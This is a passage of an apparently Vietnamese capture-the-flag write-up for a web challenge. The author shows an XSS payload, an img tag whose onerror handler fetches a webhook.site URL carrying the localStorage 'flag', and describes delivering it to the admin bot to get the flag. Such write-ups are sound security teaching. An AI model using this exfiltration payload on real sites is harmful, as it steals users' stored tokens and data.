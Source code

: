 ```hmtl
<img src="x" onerror=fetch('//webhook.site/1639fb06-1baf-48d4-868f-001ae363e147/?'.concat(localStorage.getItem('flag'))) />
```

And yeah finally mình cũng lấy được localStorage 

![image](https://hackmd.io/_uploads/B1DAj6Ahyg.png)

Bây giờ chỉ cần gửi payload cho admin rồi trigger 2 lần một lần để reply chứa chữ ký, một lần để vào và dính XSS là xong 

![image](https://hackmd.io/_uploads/SJjv260h1l.png)

Cuối cùng ta có flag 

![image](https://hackmd.io/_uploads/SkXPn60nJl.png)


